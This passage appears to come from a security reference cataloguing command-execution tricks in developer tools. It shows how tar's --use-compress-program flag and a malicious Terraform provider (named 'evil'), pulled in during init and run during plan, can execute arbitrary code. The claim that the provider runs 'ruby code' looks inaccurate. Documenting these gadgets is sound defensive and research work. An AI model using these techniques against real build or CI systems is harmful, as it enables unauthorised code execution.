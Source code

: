 References:
- [GTFOArgs: tar](https://gtfoargs.github.io/gtfoargs/tar/)

## -I/--use-compress-program

[-I/--use-compress-program](https://www.gnu.org/software/tar/manual/html_section/Compression.html#index-use_002dcompress_002dprogram) is used to specify an external compression program command that can be abused to execute arbitrary commands:

```bash
# Does not requrie valid archive
$ tar xf /dev/null --use-compress-program='cmdname arg1 arg2'
```

References:
- [GTFOArgs: tar](https://gtfoargs.github.io/gtfoargs/tar/)

# terraform

## terraform-plan

Terraform relies on plugins called ["providers"](https://www.terraform.io/docs/language/providers/configuration.html) to interact with remote systems. Terraform configurations must declare which providers they require, so that Terraform can install and use them. 

You can write a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup), publish it to the [Terraform Registry](https://registry.terraform.io/) and add the provider to the Terraform code.

```tf
terraform {
  required_providers {
    evil = {
      source  = "evil/evil"
      version = "1.0"
    }
  }
}

provider "evil" {}
```

```bash
$ terraform init
$ terraform plan
```

The provider will be pulled in during `terraform init` and when `terraform plan` is run the arbitrary ruby code will be executed.

Additionally, Terraform offers the [external provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) which provides a way to interface between Terraform and external programs. Therefore, you to use the `external` data source to run arbitrary code. The following example from [docs](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source) executes a python script during `terraform plan`.
